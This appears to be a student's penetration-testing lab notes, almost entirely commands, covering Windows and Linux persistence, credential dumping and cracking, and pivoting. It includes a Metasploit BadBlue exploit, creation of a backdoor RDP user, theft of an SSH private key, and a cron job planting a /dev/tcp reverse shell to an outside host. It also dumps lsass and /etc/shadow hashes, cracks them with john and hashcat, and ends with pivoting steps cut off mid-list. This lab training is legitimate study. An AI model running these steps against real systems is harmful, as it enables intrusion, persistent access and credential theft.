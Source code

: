 		    - `db_status setg RHOSTS 10.2.20.249 setg RHOST 10.2.20.249 workspace -a RDP_persistence db_nmap -sV 10.2.20.249`
		    - `use exploit/windows/http/badblue_passthru run`
		    - `sysinfo`
		    - `getuid`
		    - `pgrep explorer migrate 3132`
		    - `run getgui -e -u newuser -p attack_1234321`
		    - `xfreerdp /u:newuser /p:attack_1234321 /v:10.2.20.249`
		    - Meterprer run this command - run `multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20230429.4245.rc`
	    - **Linux**
		    - `ssh [student@192.3.140.3](<mailto:student@192.3.140.3>)` use password
		    - `ls -al`
		    - `cat wait`
		    - `cd .ssh ls`
		    - `cat id_rsa`
		    - `cat authorized_keys`
		    - `scp [student@192.3.140.3](<mailto:student@192.3.140.3>):~/.ssh/id_rsa . chmod 400 id_rsa`
		    - `ssh [student@192.3.140.3](<mailto:student@192.3.140.3>) rm wait`
		    - `ssh -i id_rsa [student@192.3.140.3](<mailto:student@192.3.140.3>)`
		    - 2nd cron
		    - `cat wait`
		    - `cat /etc/cron*`
		    - `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.175.36.2/1234 0>&1'" > cron`
		    - `crontab -i cron crontab -l`
		    - logback again
		    - `ssh [student@192.175.36.3](<mailto:student@192.175.36.3>) rm wait`
		    - `nc -nvlp 1234`
	- Dumping & Cracking
	    - **Windows**
		    - `sysinfo`
		    - `getuid`
		    - `get privs`
		    - `pgrep lsass migrate 688`
		    - `hashdump`
		    - `john --list=formats | grep NT`
		    - `john --format=NT hashes.txt`
		    - `john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt`
		    - `hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`
		    - `hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt`
		    - `xfreerdp /u:Administrator /p:password /v:10.2.24.37`
	    - **Linux**
		    - `nmap -sV 192.22.107.3`
		    - `service postgresql start && msfconsole -q`
		    - Exploit proftpd backdoor
		    - `/bin/bash -i`
		    - `cat /etc/shadow`
		    - `use post/linux/gather/hashdump`
		    - `john --format=sha512crypt /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt --wordlist=/usr/share/wordlists/rockyou.txt`
		    - `hashcat -a 3 -m 1800 /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt /usr/share/wordlists/rockyou.txt`
- Pivoting
	- Get Meterpreter session
	- `sysinfo`
	- `getuid`
	- `ipconfig`
	- `run autoroute -s <Victim2IP/24>`
	- run this in background
	- `background`
	- rename the session 1 meterpreter
	- `sessions -n victim1 -i 1`
	- `sessions`
	- Now portscan